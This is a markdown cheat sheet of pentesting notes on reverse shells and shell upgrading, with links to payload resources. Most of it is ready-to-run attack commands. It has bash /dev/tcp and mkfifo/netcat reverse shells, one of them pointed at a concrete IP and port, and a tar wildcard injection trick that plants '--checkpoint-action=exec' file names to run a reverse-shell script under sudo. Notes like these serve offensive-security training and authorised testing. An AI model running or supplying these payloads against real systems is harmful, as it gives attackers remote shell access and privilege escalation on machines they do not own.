 # Resources
- [Hacktricks Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
- [RevShells](https://www.revshells.com/)
- https://pentestmonkey.net/category/tools/web-shells
- [Payloads All The Things - Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Socat](https://linux.die.net/man/1/socat)
- [Netcat](../../Tools/Netcat.md)

---
# Shellnanigans

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM=xterm`
	- `export SHELL=bash`
- connect bash to netcat over sockets
	- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

## sh

This works when bash cant be called and the `nc -e` option is blocked by bypassing it with file redirection
```sh
#!/bin/sh
rm -f /tmp/fifo && mkfifo /tmp/fifo
cat /tmp/fifo | /bin/sh 2>&1 | nc 10.13.69.46 1234 > /tmp/fifo
```
### Explanation:

- `mkfifo /tmp/fifo`: Creates a named pipe (FIFO) at `/tmp/fifo` for communication.
- `cat /tmp/fifo`: Reads from the named pipe (which gets its input from the shell).
- `/bin/sh 2>&1`: Runs a shell, redirecting both stdout and stderr to the pipe.
- `nc 10.13.69.46 1234`: Establishes a connection to the target IP and port.
- `> /tmp/fifo`: Sends the input from the remote connection back into the pipe.
